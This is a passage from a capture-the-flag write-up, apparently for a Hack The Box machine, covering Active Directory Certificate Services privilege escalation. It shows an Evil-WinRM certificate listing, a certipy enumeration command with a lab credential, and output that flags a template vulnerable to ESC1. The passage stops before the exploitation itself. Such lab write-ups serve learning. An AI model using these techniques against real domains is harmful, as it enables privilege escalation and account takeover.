 ## Privilege Escalation

### ESC1 + Add Computer --> Reset DA Password

Within the machine, there are some certificates available:

```
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ls cert:/Localmachine/My


   PSParentPath: Microsoft.PowerShell.Security\Certificate::Localmachine\My

Thumbprint                                Subject
----------                                -------
790DCBD9D91E34EDE37CDAD9C114C3DE1BEBA7BE  CN=authority.authority.htb
42A80DC79DD9CE76D032080B2F8B172BC29B0182  CN=AUTHORITY-CA, DC=authority, DC=htb
```

This sort of guided me towards exploiting vulnerable certificate templates. I used `certipy` to find the CA stuff.&#x20;

```
$ certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.9.12
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Saved BloodHound data to '20230717105005_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230717105005_Certipy.txt'
[*] Saved JSON output to '20230717105005_Certipy.json'
```

Then, I looked through the certificates to see if there were any vulnerabilities. There was one vulnerability that it picked up on:

```
1
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
```